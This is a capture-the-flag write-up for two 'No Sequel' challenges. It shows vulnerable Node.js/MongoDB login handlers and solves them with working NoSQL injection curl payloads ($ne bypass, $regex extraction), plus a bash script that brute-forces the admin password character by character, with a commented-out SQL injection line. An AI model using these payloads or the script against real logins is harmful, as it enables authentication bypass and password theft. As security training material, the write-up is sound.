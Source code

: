 
# No Sequel 

## The challenge

A lot of people told me about SQL injection. So, i've been thinking: If I use NoSQL, I'm protected against injection, right? RIGHT?

http://54.251.224.195:5000/

```javascript
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

app.post('/login', (req, res) => {
  const user = req.body.username;
  const pass = req.body.password;

  if (!user || !pass){
    return res.send("One or more fields were not provided.");
  }
  const query = {
    username: user,
    password: pass
  }

  User.findOne(query, function (err, user) {
    if (!user){
      res.send("Wrong username or password");
      return
    }

    res.send(process.env.FLAG);
  });
});
```

## Writeup

We can see there is no filer it the variables or the query.
So we can inject a NoSQL query:
```bash
curl 'http://54.251.224.195:5000/login' -H 'Content-Type: application/json'   -H 'Referer: http://54.251.224.195:5000/login'   --data '{
    "username": "admin",
    "password": {"$ne": 0}
}'
```

the return : axactf{n05ql_d0e5_n07_m34n_n0_1nj3ct10n}



# No Sequel: Second Impact

## The challenge

So, ok, maybe my first thought about injection wasn't good: NoSQL doesn't mean that i'm protected. So, this time, i won't make the same error twice. I'll check the password! Note: both No Sequel challenges are using the same DB / data

http://54.251.224.195:5000/

```javascript
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));
app.post('/hard-login', (req, res) => {
  const pass = req.body.password;

  if (!pass){
    return res.send("You need to provide the password.");
  }
  const query = {
    username: 'admin'
  }

  User.findOne(query, function (err, user) {
    if (!user){
      res.send("Wrong username or password");
      return
    }

    if (user.password === pass) {
      res.send(process.env.HARDFLAG);
    } else {
      res.send("Wrong password");
      return
    }
  });
});
```

## Writeup

We juste need the password of the admin user from the previous challenge.
We 're going to craft the request to find the  password of the admin user character by character. Using the same technique than SQL challenges.
Crafter request:
```bash
curl 'http://54.251.224.195:5000/login' -H 'Content-Type: application/json'   -H 'Referer: http://54.251.224.195:5000/login'   --data '{
    "username": "admin",
    "password": {"$regex": "^a.*"}, "$options": "m"
}'
```

So doing the same script than in SQL challenge:

```bash
#!/bin/bash    
password=""
passwordreel=""
echo $cmd

arrayName=('a' 'b' 'c' 'd' 'e' 'f' 'g' 'h' 'i' 'j' 'k' 'l' 'm' 'n' 'o' 'p' 'q' 'r' 's' 't' 'u' 'v' 'w' 'x' 'y' 'z' 'A' 'B' 'C' 'D' 'E' 'F' 'G' 'H' 'I' 'J' 'K' 'L' 'M' 'N' 'O' 'P' 'Q' 'R' 'S' 'T' 'U' 'V' 'W' 'X' 'Y' 'Z' '0' '1' '2' '3' '4' '5' '6' '7' '8' '9')
while true; do
a=0
for i in "${arrayName[@]}"; do
password="$passwordreel$i"
echo $password
#cmd=$(curl 'http://54.254.115.115:5001/'  -H 'Connection: keep-alive'   -H 'Cache-Control: max-age=0'   -H 'Upgrade-Insecure-Requests: 1'   -H 'Origin: http://54.254.115.115:5001'   -H 'Content-Type: application/x-www-form-urlencoded'   -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Referer: http://54.254.115.115:5001/'   -H 'Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7'   --data 'username=flag1" and password+like+"'"$password"'%fuzh0='   --compressed   --insecure)
cmd=$(curl 'http://54.251.224.195:5000/login' -H 'Content-Type: application/json'   -H 'Referer: http://54.251.224.195:5000/login'   --data '{
    "username": "admin",
    "password": {"$regex": "^'$password'.*"}, "$options": "m"
}')
echo $cmd
if [[ $cmd == *"Wrong"* ]]; then
  a=$a+1;
  
else
  passwordreel=$password
  echo $password
  break
fi
done
echo $password

done

```

We find : m0r3c0mpl1c4t3d57uff
curl 'http://54.251.224.195:5000/hard-login'  --data-raw 'password=m0r3c0mpl1c4t3d57uff' 

and we get : #axactf{th1s_1s_called_bl1nd_5ql_1nj3ct10n}